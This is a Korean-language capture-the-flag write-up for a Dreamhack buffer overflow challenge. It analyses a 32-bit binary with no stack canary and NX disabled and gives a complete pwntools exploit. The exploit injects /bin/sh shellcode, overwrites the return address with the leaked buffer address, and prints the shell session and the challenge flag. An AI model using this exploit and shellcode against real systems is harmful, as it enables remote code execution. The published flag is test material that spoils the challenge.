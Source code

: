 ## 문제에서 주어진 환경
Ubuntu 16.04
Arch: i386-32-little RELRO: No RELRO
Stack: No canary found NX: NX disabled
PIE: No PIE (0x8048000) RWX: Has RWX segments

-> 32비트 환경이므로 4바이트 단위로 데이터를 처리한다
-> canary가 없으므로 BOF 공격에 용이하다

## 주어진 코드 분석

```
int main(int argc, char *argv[]) {
    char buf[0x80]; // 128 비트

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf); // 141 비트, 13 비트가 남는다.

    return 0; 
}
```

주어진 코드에서 buf는 128바이트로 선언되었지만, scanf를 통해 141 바이트를 불러온다.
여기서 BOF의 가능성을 볼 수 있다.

공격을 하기 위해서는 buf의 시작주소를 알아야 한다.

## ghidra를 통해 프로그램을 분석해보자

image.png

080485f2 83 c4 08 ADD ESP,0x8
080485f5 8d 45 80 LEA EAX=>local_84,[EBP + -0x80]

위 부분에서 scanf 함수를 통해 ebp + -0x80부터 입력된 값이 저장됨을 알 수 있다.

32비트 환경에서 시스템 스택의 구조는 다음과 같다.
- BUF - CANARY - SFP - RET

여기에서 CANARY는 존재하지 않으므로, 128바이트 BUF + 4바이트 SFP + RET로 이루어짐을 알 수 있다.
-> shell code가 포함된 132바이트 문자열 + 버퍼의 시작주소를 입력한다면 시스템 권한을 취득할 수 있다.

## 파이썬을 통한 시스템 권한 취득
```
from pwn import *

p = remote("host3.dreamhack.games", 10666)

p.recvuntil(b"buf = (") 
buf = int(p.recv(10), 16) 
p.recvuntil(b"\n")

payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\ x08\x40\x40\x40\xcd\x80"
payload += b"\x80" * 106
payload += p32(buf)

p.sendline(payload) 
p.interactive()
```
사이트에서 접속정보에 있는 host이름과 포트번호를 remote()를 통해 불러온다.

recvuntil(), recv()는 데이터를 받아오는 함수이다. 
recvuntil(b”string”)은 현재 포인터에서 문자열까지 받아온다. 
recv(int)는 int만큼 데이터를 받아온다.

위에서 분석한 코드를 보면 s_buf_=_(%p) 형식으로 되어있다.
이는 문자열 “buf = (%p)”로 되어 있다는 것으로, 우리에게 필요한 부분만 가져오기 위해 주소 앞까 지 먼저 처리한다.

그러고 난 뒤 0xMMMMMMMM형태의 수(10자리)를 16진수 형태로 받아서 정수로 저장한다.
남아있는 문자열의 끝은 \n이기 떄문에 \n까지 데이터를 받아오는 식으로 나머지를 정리한다.
RET 데이터에 BUF의 주소를 넣고, 앞에 132 바이트를 셸코드와 나머지로 만든다면 원하는 권한을 얻을 수 있다.

payload = [shell code] + [임의의 데이터 -> 132바이트] + [buf의 주소]가 되고, 이는 c코드에서 입력하는 buf이다.

shell code는 구글링을 통해 기본적인 26바이트 코드로 가져왔다.
나머지 106바이트를 아무 수로 만들고 마지막에 buf의 주소를 연결한다.
32비트 환경에서는 4바이트 단위로 쪼개기 때문에 p32()함수를 사용해 주소를 나눈다.

이렇게 만들어진 payload를 입력하고 상호작용을 하면 다음과 같은 결과를 얻는다.
```
[+] Opening connection to host3.dreamhack.games on port 10666: Done
[*] Switching to interactive mode
$ ls
basic_exploitation_000
flag
run.sh
$ cat flag
DH{465dd453b2a25a26a847a93d3695676d}$ 
[*] Got EOF while reading in interactive
```



정답은 DH{465dd453b2a25a26a847a93d3695676d} 이다.
